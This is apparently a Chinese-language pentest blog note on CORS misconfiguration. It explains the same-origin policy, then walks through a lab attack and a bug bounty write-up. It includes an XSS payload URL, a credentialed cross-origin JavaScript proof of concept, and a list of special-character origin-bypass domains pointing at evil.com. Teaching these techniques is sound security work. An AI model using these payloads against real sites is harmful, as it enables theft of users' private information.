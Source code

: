 
#About CORS
首先什么是同源
```
Two websites are said to have same origin if both have following in common:

Scheme (http, https)
Host name (google.com, facebook.com, securelayer7.net)
Port number (80, 4567, 7777)

So, sites http://example.com and http://example.com/settings have same origin.
But https://example.com:4657 and http://example.com:8080/settings have different origins

```
那么我们为什么需要同源呢，如果没有同源我们直接发送请求读取返回数据就可以了啊，但是这样是不安全的，所以同源策略(SOP)被创造出来了
```
同源策略(same-origin policy)限制了从同一个源加载的文档或脚本如何与来自另一个源的资源进行交互。这是一个用于隔离潜在恶意文件的重要安全机制。
```
那么我们有些情景下需要进行跨源读取，所以CORS出现了
```
CORS是一个W3C标准，全称是"跨域资源共享"（Cross-origin resource sharing）。它允许浏览器向跨源(协议 + 域名 + 端口)服务器，发出XMLHttpRequest请求，从而克服了AJAX只能同源使用的限制
```

###CORS Vulnerability??????
由于配置不当，Origin源未严格，从而造成跨域问题。

#Exploation
1. The attacker hosts a website containing the malicious script for cross domain interaction.

2. Victim i.e. the Admin of the intranet website visits the attacker’s website. Location http://127.0.0.1:4567
![PIC](/assets/images/cors1.png)
3. Response is received from the attacker’s website containing the following malicious payload:
![PIC](/assets/images/cors2.png)
4. As soon as the web page is loaded, ‘makeRequest’ method is called. The method initiates a cross domain request to capture the secret, to the vulnerable intranet application located at ‘http://127.0.0.1:80/bwapp/secret-cors-1.php’
![PIC](/assets/images/cors3.png)

#Out of Scope
write up地址
`https://medium.com/bugbountywriteup/think-outside-the-scope-advanced-cors-exploitation-techniques-dad019c68397`
在这个案例我们可以学习到两种方法
1.通过子域名的XSS结合CORS利用
2.利用特殊符号和浏览器的结合去绕过子域名的检查


##hacking start
```This API endpoint was returning the user’s private information, like full name, email address, ….
To abuse this misconfiguration so we can perform an attack, like leaking users’ private information, we need either to claim an abandoned subdomain (Subdomain Takeover), or find an XSS in one of the existing subdomains.
```
这里也就是像我们说明这个漏洞的利用条件，我们利用这个漏洞需要一个XSS或者子域名接管，他选择了XSS。在子域名中发现了一个XSS
`https://banques.redacted.com/choice-quiz?form_banque="><script>alert(document.domain)</script>&form_cartes=73&iframestat=1`


POC
```HTML
function cors() {
var xhttp = new XMLHttpRequest();
xhttp.onreadystatechange = function() {
    if (this.status == 200) {
    alert(this.responseText);
    document.getElementById("demo").innerHTML = this.responseText;
    }
};
xhttp.open("GET", "https://www.redacted.com/api/return", true);
xhttp.withCredentials = true;
xhttp.send();
}
cors();
```
成功组合漏洞

##advenced
还是同样的情况，利用需要一个子域名接管或者XSS，但这里它使用了FUZZ去尝试通过特殊字符
![PIC](/assets/images/cors4.png)
这张表里面有各种浏览器支持的特殊字符，也就是说我们可以通过访问`*.target.com.特殊字符.youdomain.com`来绕过正则
这里FUZZ的位置是中间的特殊字符，字典是如下的符号
```
,
&
'
"
;
!
$
^
*
(
)
+
=
`
~
-
_
=
|
{
}
%
```
最终如下域名可以绕过
```
*.ubnt.com!.evil.com
*.ubnt.com".evil.com
*.ubnt.com$.evil.com
*.ubnt.com%0b.evil.com
*.ubnt.com%60.evil.com
*.ubnt.com&.evil.com
*.ubnt.com'.evil.com
*.ubnt.com(.evil.com
*.ubnt.com).evil.com
*.ubnt.com*.evil.com
*.ubnt.com,.evil.com
*.ubnt.com;.evil.com
*.ubnt.com=.evil.com
*.ubnt.com^.evil.com
*.ubnt.com`.evil.com
*.ubnt.com{.evil.com
*.ubnt.com|.evil.com
*.ubnt.com}.evil.com
*.ubnt.com~.evil.com
```
然后用safari访问一下看支不支持，之后注册这个子域名，然后就可以利用了
`https://zzzz.ubnt.com=.evil.com/cors-poc`
这里主要是利用了Safari浏览器支持特殊字符然后进行利用

#每日的文章推送和周日的技术分享的在Pentest explorer
